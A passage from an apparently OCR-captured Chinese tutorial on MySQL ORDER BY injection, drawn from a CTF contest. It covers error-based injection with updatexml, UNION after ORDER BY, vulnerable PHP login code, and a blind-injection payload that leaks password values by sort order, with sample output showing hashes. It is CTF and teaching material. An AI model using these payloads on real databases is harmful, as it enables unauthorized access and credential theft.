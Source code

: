当页面会展示出MYSQL的错误信息时，可以使用报错注入。

> select * from test order by user_id and(updatexml(1,concat(0x7e,(select user())),0))

#### order by 与 union 联合查询

•当 $query = "select * from users order by id $input ";没有使用括号包裹的时候，是无法直接使用union查询的。

•当 $query = "(select * from users order by id $input) ";使用括号进行包裹的时候，此时是可以进行union查询的。



order by是mysql中对查询数据进行排序的方法， 使用示例

```
select * from 表名 order by 列名(或者数字) asc；升序(默认升序)
select * from 表名 order by 列名(或者数字) desc；降序
```

这里的重点在于order by后既可以填列名或者是一个数字。举个例子： id是user表的第一列的列名，那么如果想根据id来排序，有两种写法

```
select * from user order by id;
selecr * from user order by 1;
```

这个是在安恒杯月赛上看到的。 后台关键代码

```
$sql = 'select * from admin where username='".$username."'';
$result = mysql_query($sql);
$row = mysql_fetch_array($result);
if(isset($row)&&row['username']!="admin"){
    $hit="username error!";
}else{
    if ($row['password'] === $password){
        $hit="";
    }else{
        $hit="password error!";
    }

}
```

payload

```
username=admin' union 1,2,'字符串' order by 3
```

sql语句就变为

```
select * from admin where username='admin' or 1 union select 1,2,binary '字符串' order by 3;
```

这里就会对第三列进行比较，即将字符串和密码进行比较。然后就可以根据页面返回的不同情况进行盲注。 注意的是最好加上binary，因为order by比较的时候不区分大小写。

示例

```
mysql> select id,username,password from fa_admin where username ='' or 1 union select 1,2,'z' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  2 | test     | f0e1528ff82611ec9f49f7fdc135e535 |
|  1 | admin    | ff35c9d44ec654681d5822288edca5a3 |
|  1 | 2        | z                                |
+----+----------+----------------------------------+
3 rows in set (0.03 sec)

mysql> select id,username,password from fa_admin where username ='' or 1 union select 1,2,'a' order by 3;
```